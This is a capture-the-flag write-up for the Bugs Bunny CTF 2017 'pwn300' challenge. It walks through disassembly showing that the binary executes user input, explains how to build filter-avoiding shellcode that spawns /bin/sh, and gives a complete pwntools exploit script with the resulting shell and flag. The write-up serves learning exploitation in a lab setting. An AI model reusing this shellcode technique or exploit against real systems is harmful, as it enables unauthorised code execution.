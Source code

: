```yaml
---
title: pwn300 (pwnage 300)
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```


Description:
```
Oh this time need skills guys

task : nc 54.153.19.139 5256
```


Binary type:

```
pwn300: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1da985f3981214bb78b782af238092d88d9a889e, not stripped
```

Binary security measurements:

```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Code in the beginning:

```c++
int welcome()
{
  return puts("Welcome to BugsBunnyCTF!");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rdi@1

  v3 = _bss_start;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  welcome();
  itshere(v3, 0LL);
  return 0;
}
```

There's not a lot happening.
But the "itshere" function is interesting.
Unfortunately I can't post here an aesthetic pseudcode, because call-analysis fails in this function.
But why? That's pretty clear when we take a more exact look at it:

```
.text:0000000000400791
.text:0000000000400791 loc_400791:
.text:0000000000400791 lea     rax, [rbp+buf]
.text:0000000000400798 mov     edx, 1          ; nbytes
.text:000000000040079D mov     rsi, rax        ; buf
.text:00000000004007A0 mov     edi, 0          ; fd
.text:00000000004007A5 call    _read
.text:00000000004007AA movzx   eax, [rbp+buf]
.text:00000000004007B1 cmp     al, 0Ah         ; check if it's a newline character -> execute code
.text:00000000004007B3 jz      short shellcode_finished```

So it reads exactly one byte and checks if it's 0Ah = "\n" (newline).
If it's it'll jump to this code:

```
.text:0000000000400847
.text:0000000000400847 loc_400847:
.text:0000000000400847 lea     rax, [rbp+var_210]
.text:000000000040084E mov     [rbp+var_218], rax
.text:0000000000400855 mov     rdx, [rbp+var_218]
.text:000000000040085C mov     eax, 0
.text:0000000000400861 call    rdx
```

Debugging it, I saw that "call rdx" actually calls our input.
So we basically could submit shellcode and pwn it.
But, there's a restriction:

```
.text:00000000004007D2 movzx   eax, [rbp+buf]
.text:00000000004007D9 cmp     al, 1Fh
.text:00000000004007DB jle     short short wrong_shellcode_byte
```

So if a byte of the shellcode is less than 0x1F the program will exit.
I quickly said "let's go as close as alphanumeric as I quickly can" and I did that.

Here are some good references which will explain this topic in deepth:

https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf
https://nets.ec/Alphanumeric_shellcode
https://nets.ec/Shellcode/Alphanumeric

I used the following instructions to achieve this:

1.) push / pop
2.) xor

Looking at the x64 syscall table of linux we see that sys_execve needs the following register values:

eax = 0x3b
rdi = const char *filename
rsi = const char *const argv[]
rdx = const char *const envp[]

So we just have to set eax to 0x3b and rdi pointing to the string "/bin/sh" to get a shell.

Here's the beginning values during shellcode execution of the registers:
```
RAX: 0x0
RBX: 0x0
RCX: 0x7f4b667eaba0 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffe33dceb90 ("f5PPf5_UH1B@AVAVAV^ZXPf5shfPAVXf5n/fPAVXf5bifPAVXf5//fPT_AVX4R4i")
RSI: 0x7ffe33dceb7b --> 0x71fd78000000400a
RDI: 0x0
RBP: 0x7ffe33dceda0 --> 0x7ffe33dcedb0 --> 0x0
RSP: 0x7ffe33dceb70 --> 0x7f4b66cd94c0 --> 0x7f4b6670f000 --> 0x3010102464c457f
RIP: 0x400861 (<itshere+299>:	call   rdx)
R8 : 0x3f20657265682064 ('d here ?')
R9 : 0x0
R10: 0x7ffe33dce930 --> 0x0
R11: 0x246
R12: 0x400640 (<_start>:	xor    ebp,ebp)
R13: 0x7ffe33dcee90 --> 0x1
R14: 0x0
R15: 0x0

```

To understand my shellcode look at the beginning register values and my exploit.
As you can see, rdx points to our shellcode, so we can write the "syscall" instruction by using:
```
xor ax,0x5050
xor ax,0x555f
xor [rdx+0x40],rax
```

Here's my finished exploit:
```python
#!/usr/bin/env python

from pwn import *
context.update(arch='amd64', os='linux')


# r = process('./pwn300')
r = remote('54.153.19.139', 5256)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0400861
#continue
#''')


# write syscall instruction
payload = asm('xor ax,0x5050')
payload += asm('xor ax,0x555f')
payload += asm('xor [rdx+0x40],rax')

# clear rax, rsi, rdx
payload += asm('push r14')
payload += asm('push r14')
payload += asm('push r14')
payload += asm('pop rsi')
payload += asm('pop rdx')
payload += asm('pop rax')

# change rdi to /bin/sh
payload += asm('push rax')
payload += asm('xor ax,0x6873')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x2f6e')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x6962')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x2f2f')
payload += asm('push ax')

payload += asm('push rsp')
payload += asm('pop rdi')

# put 0x3b in rax
payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor al,0x52')
payload += asm('xor al,0x69')


r.recvuntil('here ?\n')
r.sendline(payload)
r.interactive()
```


Boom! We got a shell! pew pew pew!
```
$ cat /home/pwn300/flag
Bugs_Bunny{ITs_asm_and_its_easy_But_need_more_skills!!}
```
